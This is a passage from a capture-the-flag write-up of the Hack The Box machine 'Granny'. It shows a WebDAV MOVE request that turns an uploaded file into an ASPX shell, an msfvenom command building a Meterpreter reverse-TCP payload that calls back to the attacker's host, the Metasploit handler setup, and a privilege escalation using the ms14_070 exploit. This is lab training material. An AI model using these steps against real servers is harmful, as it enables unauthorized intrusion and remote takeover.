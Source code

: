 ```http
</body>
</html>
```

Now moving the file

```http
MOVE /shell.html HTTP/1.1
DESTINATION: http://10.10.10.15/shell.aspx
Host: 10.10.10.15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
```

Now if we go to http://10.10.10.15/shell.aspx we should get our shell. As shown below.

![We got our shell](/home/duckie/Documents/htb/hackthebox_writeups/Hackthebox/granny/file_upload_granny.png)

With the help of the msfvenom we will get out meterpreter shell now. The following command will create a staged meterpreter payload in aspx format.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=4444 -f aspx -o nice.aspx
```

Fire up the meterpreter and run the commands

```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.14.4
set LPORT 4444
run
```

make a get request to http://10.10.10.15/nice.aspx and you should a meterpreter shell. 

## Privilege Escalation

We have the SeImpersonateToken available to us so the logical path is to Juicy Potato, Dirty Potato or some potato this box (too many potato exploits, smh). But they did'nt worked for me. With Fuck-Ton of searching around gave me this exploit **ms14_070_tcpip_ioctl** , so i ran up the msf exploit for this and it gave me a system shell. yay!

![proof.txt](/home/duckie/Documents/htb/hackthebox_writeups/Hackthebox/granny/granny_proof.png)

So that was the granny box, i am doing all the OSCP similar boxes on the hackthebox and will be writing stuff on them.